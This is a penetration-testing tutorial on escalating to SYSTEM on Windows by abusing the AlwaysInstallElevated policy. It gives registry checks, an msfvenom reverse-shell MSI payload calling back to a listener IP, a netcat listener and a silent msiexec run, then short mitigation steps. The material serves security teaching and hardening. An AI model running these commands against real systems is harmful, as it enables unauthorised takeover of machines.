 :orphan:
(windows-privilege-escalation-alwaysinstallelevated)=
# Windows Privilege Escalation AlwaysInstallElevated
 
In a privilege escalation attack, Attackers get system access with low privilege and then attempt to gain higher rights to do operations that are restricted to less privileged users. Attackers gain administrative access to the network by exploiting design flaws, programming faults, bugs, and configuration blunders in the operating system and software applications. In this article, we will gain administrative privileges via the misconfigured `AlwaysInstalledElevated` group policy settings. 

Windows operating system includes a Windows Installer engine that uses `MSI` packages to install the software. Windows environments provide a group policy setting that allows a regular user to install a `Microsoft Windows Installer Package` (MSI) with system privileges. This policy is enabled in the Local group policy which directs windows os to use system privileges to install any program on the system.  This setting makes the system vulnerable to privilege escalation attacks as normal users can run the installation with elevated privileges. 

*Note: This option is equivalent to granting full `SYSTEM` rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.*

This article assumes that we have already compromised the system and have a meterpreter session. 
`Getuid `

![aie_1](images/aie_1.png)

As we can see that we are logged as a normal user and not an admin. 

To check if this system is vulnerable to the AlwaysInstallElevated privilege escalation attack. Run the following command to query registry keys to check whether the windows installer has elevated privileges or not. 

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

![aie_2](images/aie_2.png)

From the above screenshot, the registry named `AlwaysInstallElevated` exists with a `dword` value of `0x1` which means that the AlwaysInstallElevated is enabled both on the `CURRENT USER and LOCAL MACHINE`. 
This vulnerability can be also be verified using `winpeas.exe`. WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts.
`https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe`  

`winPEASx64.exe quiet systeminfo`

![aie_3](images/aie_3.png)


## Exploiting via .msi payload

To escalate the privileges, open a new terminal and type the following command to generate an MSI file named `“installer.msi” `using the msfvenom tool. 
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.17.2.160 lport=1234 -f msi > installer.msi
lhost : it is listener's IP address
Lport : it is listener port 
```
![aie_4](images/aie_4.png)

Let's upload our MSI file named installer.msi to the target computer using the user's active Meterpreter session. 
`upload <path_to_msi_file>`

![aie_5](images/aie_5.png)

When it successfully uploads, open up the shell by typing shell in meterpreter. Next set up a netcat listener, which will listen for our reverse shell connection when the msi file will be executed by the victim host. 
```
sudo nc -nlvp <listner_port> 
-p : to specify the port to listen on 
-l : to listen for a connection 
-n : to skip the DNS lookup
-v : for verbose mode 
```
![aie_6](images/aie_6.png)

The following command can be used to execute the MSI file on the windows command.  
`msiexec /quiet /qn /i installer.msi`
```
/quiet : quiet mode, this means suppress any messages to the user while installing
/qn : specifies no GUI
/i : specifies normal installation
```
![aie_7](images/aie_7.png)

After the package is installed, the malicious code is run, giving the system `SYSTEM` level access through a reverse shell. 

![aie_8](images/aie_8.png)

Now we have a `SYSTEM` level shell. 

## Mitigation

To mitigate this type of attack, the following steps can be used in `Group Policy editor` to resolve the misconfiguration. 
Configure the policy value to `"Disabled"` for 
`Computer Configuration \Administrative Templates\Windows Components \Windows Installer \"Always install with elevated privileges"` 

![aie_9](images/aie_9.png)

`User Configuration\Administrative Templates\Windows Components\Windows Installer \"Always install with elevated privileges"`

![aie_10](images/aie_10.png)

> **Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)**